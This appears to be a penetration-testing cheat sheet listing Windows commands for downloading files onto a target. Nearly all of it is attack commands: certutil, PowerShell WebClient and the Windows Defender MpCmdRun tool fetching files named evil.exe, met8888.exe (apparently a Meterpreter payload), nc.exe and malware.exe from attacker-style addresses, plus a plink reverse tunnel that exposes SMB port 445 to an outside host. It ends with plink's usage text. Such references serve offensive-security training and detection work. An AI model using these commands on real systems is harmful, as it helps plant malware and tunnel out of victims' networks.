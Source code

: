 # Built in windows utility to download file:
## certutil.exe

```
certutil.exe -urlcache -split -f http://10.10.0.101/evil.exe safe.exe
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
```

## Powershell:
```
(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","c:\nc.exe")	
wget "http://10.10.10.10/nc.exe" outfile "c:\nc.exe"	
```


# Download a file using the Windows Defender CLI Tool
```
C:\ > "C:\ProgramData\Microsoft\Windows Defender\platform\<version-number>\MpCmdRun.exe" -DownloadFile -url http://website.com/malware.exe -path C:\\users\\malware.exe
```
C:\ > "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url http://website.com/malware.exe -path C:\\users\\malware.exe


# Plink.exe
```
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.110
```
### Usage
```Usage: plink [options] [user@]host [command]                                                                                                                                                                                               
       ("host" can also be a PuTTY saved session name)                                                                                                                                                                                     
Options:                                                                                                                                                                                                                                   
  -V        print version information and exit                                                                                                                                                                                             
  -pgpfp    print PGP key fingerprints and exit                                                                                                                                                                                            
  -v        show verbose messages                                                                                                                                                                                                          
  -load sessname  Load settings from saved session                                                                                                                                                                                         
  -ssh -telnet -rlogin -raw -serial                                                                                                                                                                                                        
            force use of a particular protocol                                                                                                                                                                                             
  -P port   connect to specified port                                                                                                                                                                                                      
```
